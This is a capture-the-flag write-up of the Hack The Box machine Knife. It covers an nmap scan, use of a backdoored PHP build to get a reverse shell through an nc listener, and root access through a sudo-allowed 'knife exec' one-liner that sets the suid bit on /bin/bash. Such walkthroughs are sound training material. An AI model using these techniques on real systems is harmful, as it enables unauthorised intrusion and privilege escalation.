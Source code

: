 ```yaml
---
title:     "Hack The Box - Knife"
tags: [linux,easy,php,backdoor,cve,chef-workstation,sudo]
categories: HackTheBox
---
```

[![info_card](/img/knife/info_card.png)](/img/knife/info_card.png)

Knife is an easy rated machine on HackTheBox by [MrKN16H](https://www.hackthebox.eu/home/users/profile/98767). For the user part we will abuse a backdoored php version and for root sudo rights on the `Chef Workstation` binary `knife`.

# User

## Nmap

As usual we start our enumeration off with an nmap scan against all ports, followed by a script and version detection scan against the open ones.

`All ports`
```
$ sudo nmap -p- -T4  10.129.136.243
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-22 20:09 UTC
Nmap scan report for knife.htb (10.129.136.243)
Host is up (0.034s latency).
Not shown: 65526 closed ports
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http

Nmap done: 1 IP address (1 host up) scanned in 1311.09 seconds
```

`Script and version`
```
$ sudo nmap -sC -sV -p 22,80 10.129.136.243
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-22 20:33 UTC
Nmap scan report for knife.htb (10.129.136.243)
Host is up (0.033s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.10 seconds
```

## Php Zerodium

Looking at a request in burp we can see that the the server is powered by php. Checking for the recent [php backdoor](https://www.bleepingcomputer.com/news/security/phps-git-server-hacked-to-add-backdoors-to-php-source-code/) we can see that it is indeed present on this system.

[![zerodium_poc](/img/knife/zerodium_poc.png)](/img/knife/zerodium_poc.png)

Having code execution on the server we can send a revershell in the next step. First we set up a listener.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Afterwards we send the revershell and upgrade it.

[![zerodium_revshell](/img/knife/zerodium_revshell.png)](/img/knife/zerodium_revshell.png)

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.136.243.
Ncat: Connection from 10.129.136.243:43786.
bash: cannot set terminal process group (884): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
james@knife:/$ export TERM=xterm
export TERM=xterm
james@knife:/$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

james@knife:/$
```

We can now read the user flag.

```
$ wc -c /home/james/user.txt
33 /home/james/user.txt
```

# Root

## Chef workstation

On a first glance, we can see that the user james can run the command knife as root.

```
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
james@knife:/$
```

This belongs to [chef-workstation](https://downloads.chef.io/tools/workstation), a remote management tool.

```
$ ls -la /usr/bin/knife
lrwxrwxrwx 1 root root 31 May  7 11:03 /usr/bin/knife -> /opt/chef-workstation/bin/knife
```

With this we can execute commands as the root user on the system and get to root easily by setting the suid bit on `bash`.

```
james@knife:~$ sudo /usr/bin/knife exec -E 'exec "chmod +s /bin/bash"'; bash -p
bash-5.0# wc -c /root/root.txt
33 /root/root.txt
```
